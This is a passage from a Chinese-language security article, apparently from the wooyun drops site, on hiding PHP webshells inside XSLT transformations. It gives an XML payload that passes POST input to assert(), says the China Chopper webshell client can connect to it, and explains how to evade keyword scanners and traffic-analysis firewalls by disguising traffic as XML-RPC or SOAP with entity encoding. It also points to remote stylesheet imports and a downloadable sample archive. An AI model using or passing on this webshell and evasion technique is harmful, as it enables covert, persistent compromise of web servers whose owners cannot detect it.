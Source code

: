 第二行的http://php.net/xsl这个命名空间URI表示php专用的xsl函数支持，第四行的zcg:function('assert',string(.))表示将匹配节点的文本作为参数传递给php的assert函数。

为了避免xml的转义问题，进行一次assert嵌套，可以得到xml：

```
<root>assert($_POST[a]);</root>

```

由于php并没有上下文的概念，所有的代码都是在同一代码空间中执行，在xsl中可直接访问GPCS，于是可以直接使用菜刀连接：

![enter image description here](http://drops.javaweb.org/uploads/images/e40afb660a5f81c287a7437e8daa22116e0a3cf7.jpg)

同样的功能齐全。

美中不足的是这个功能默认并没有安装，windows上需要修改php.ini启用php_xsl.dll拓展；linux上需要编译时指定--with-xsl或额外安装php5-xsl包。鉴于php的灵活性，此类shell除隐蔽性较高外并无太大必要。

0x05 总结与其他
=====

在上述基于xslt转换的webshell中，所有的敏感调用都是以字符串形式存在于xml中，避免了基于关键字的webshell查杀。同时，由于xslt是一项正常的功能，对xsl转换器所提供的方法进行查杀、禁用很不实际。例如：msxml组件被大量的系统用于远程文件下载或xmlrpc，基本上是不可能禁用的。 最后，服务端与客户端的交互实质上是通过xml进行的，所以可以伪装成xmlrpc/soap等协议，借助xml的转义将敏感字符转义为实体字符，以躲避基于流量分析的防火墙。例如：将cmd替换为等效的实体字符cmd等。

除了webshell外，xsl转换还有其他可能的利用点。xml支持自动导入xsl，其语法为：

```
<?xml-stylesheet type="text/xsl" href="http://host/template.xsl"?>

```

但除了浏览器之外，尚未发现有哪个解析器会自动解析这个预处理命令，不过作为一种测试手段也未尝不可，如果成功的话则很有可能是一个代码执行漏洞。 某些服务端程序允许客户端提交一个xsl进行自定义，此时若提交一个包含内嵌脚本的恶意xsl同样可能达到代码执行的目的。

0x06 参考文档
=====

Bypassing Windows 8.1 Mitigations using Unsafe COM Objects(老外借助xslt转换的DVE利用)： http://www.contextis.com/resources/blog/windows-mitigaton-bypass/

php xsl：http://php.net/manual/zh/book.xsl.php

XML标准参考资料：https://msdn.microsoft.com/zh-cn/library/ms256177.aspx

msxsl:script元素：https://msdn.microsoft.com/zh-cn/library/ms256042.aspx

XSLT 参考：https://msdn.microsoft.com/zh-cn/library/ms256069.aspx

XSLT 转换：https://msdn.microsoft.com/zh-cn/library/14689742.aspx

附件下载：[Download](http://drops.wooyun.org/wp-content/uploads/2015/04/2.png)

百度网盘：http://pan.baidu.com/s/1bnq9I8J

解压密码见注释。